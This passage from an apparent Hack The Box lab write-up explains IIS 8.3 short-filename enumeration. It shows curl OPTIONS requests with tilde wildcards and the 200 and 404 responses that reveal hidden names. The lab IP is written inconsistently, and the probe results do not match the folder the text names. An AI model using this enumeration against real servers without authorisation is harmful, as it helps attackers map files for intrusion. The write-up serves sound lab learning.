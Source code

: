 ![image.png](image%205.png)

## IIS Shortnames

A key technique here is to exploit Windows' short file names, known as the 8.3 naming convention, which restricts each file name to eight characters followed by a dot and a three-character extension. There was an [intriguing paper](https://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf) that explored how earlier versions of IIS and .NET handle these 8.3 file names. The method involves examining how the server deals with 8.3 names that include wildcards, which it appears to process when the tilde (~) symbol is present in the file path.

Different servers may require different HTTP request methods to detect this behavior. On this particular server, the issue doesn’t appear with a GET request, but is exposed using an OPTIONS request. For instance, using gobuster, I found that there is a folder called templates in the root directory. When I send an OPTIONS request to [http://10.13.38/11/t*~1*/.aspx](http://10.13.0.38/11/t*~1*/.aspx), the server responds with a 404 error. However, when I send a request to [http://10.13.38/11/c*~1*/.aspx](http://10.13.0.38/11/c*~1*/.aspx), it responds with a 200 status code.

```bash
┌──(n00b㉿v1c70r)-[~/HTB Prolabs/P.O.O]
└─$ curl -s -I -X OPTIONS 'http://10.13.38.11/c*~1*/.aspx'
HTTP/1.1 200 OK
Allow: OPTIONS, TRACE, GET, HEAD, POST
Server: Microsoft-IIS/10.0
Public: OPTIONS, TRACE, GET, HEAD, POST
Date: Mon, 07 Oct 2024 02:11:52 GMT
Content-Length: 0

                                                                                 
┌──(n00b㉿v1c70r)-[~/HTB Prolabs/P.O.O]
└─$ curl -s -I -X OPTIONS 'http://10.13.38.11/t*~1*/.aspx'
HTTP/1.1 404 Not Found
Content-Type: text/html
Server: Microsoft-IIS/10.0
Date: Mon, 07 Oct 2024 02:12:10 GMT
Content-Length: 1245

```
